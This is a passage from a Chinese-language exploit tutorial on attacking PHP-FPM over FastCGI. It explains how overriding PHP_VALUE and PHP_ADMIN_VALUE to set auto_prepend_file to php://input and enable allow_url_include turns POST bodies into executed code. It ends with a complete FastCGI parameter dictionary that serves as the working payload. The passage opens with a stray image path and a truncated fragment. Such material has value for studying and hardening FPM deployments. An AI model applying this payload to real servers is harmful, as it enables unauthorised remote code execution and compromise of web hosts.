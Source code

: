 这次放在源代码之后就可以进行利用，简单方便。当然继续看下去， 看见**-d**这个牛鼻的参数这个漏洞又怎么会这么简单呢？？

实际使用中

```
allow_url_include:远程文件包含
`auto_prepend_file`：包含我们的代码
```

我们继续解析:

## 任意代码执行

这里怎么去任意代码执行，首先有以下几个问题:

- 即使我们能控制`SCRIPT_FILENAME`，让fpm执行任意文件，也只是执行目标服务器上的文件，并不能执行我们需要其执行的文件。

- 我们怎么把代码上传上去

  PHP语言的特性就是有很多很强大的配置项`auto_prepend_file`和`auto_append_file`。

  ```
  1.auto_prepend_file是告诉PHP，在执行目标文件之前，先包含auto_prepend_file中指定的文件；
  2.auto_append_file是告诉PHP，在执行完成目标文件后，包含auto_append_file指向的文件。
  ```

  如果我们把auto_prepend__file设置成`php://input`然后我们再执行任何的php文件前都会包含一些post的内容了，所以我们只要post一下，这些代码就都能够被执行了，（当然，还需要开启远程文件包含选项`allow_url_include`）

这个时候就有下一个问题了，就是我们怎么设置这个环境变量的值呢？

```
PHP_VALUE`和`PHP_ADMIN_VALUE
这两个环境变量就是用来设置PHP配置项的，PHP_VALUE可以设置模式为PHP_INI_USER和PHP_INI_ALL的选项，PHP_ADMIN_VALUE可以设置所有选项。（disable_functions除外，这个选项是PHP加载的时候就确定了，在范围内的函数直接不会被加载到PHP上下文中
```

这就是他们两个的特长了。

所以，我们最后传入如下环境变量：（直接和FPM进行通信）

```
{
    'GATEWAY_INTERFACE': 'FastCGI/1.0',
    'REQUEST_METHOD': 'GET',
    'SCRIPT_FILENAME': '/var/www/html/index.php',
    'SCRIPT_NAME': '/index.php',
    'QUERY_STRING': '?a=1&b=2',
    'REQUEST_URI': '/index.php?a=1&b=2',
    'DOCUMENT_ROOT': '/var/www/html',
    'SERVER_SOFTWARE': 'php/fcgiclient',
    'REMOTE_ADDR': '127.0.0.1',
    'REMOTE_PORT': '12345',
    'SERVER_ADDR': '127.0.0.1',
    'SERVER_PORT': '80',
    'SERVER_NAME': "localhost",
    'SERVER_PROTOCOL': 'HTTP/1.1'
    'PHP_VALUE': 'auto_prepend_file = php://input',
    'PHP_ADMIN_VALUE': 'allow_url_include = On'
}
```
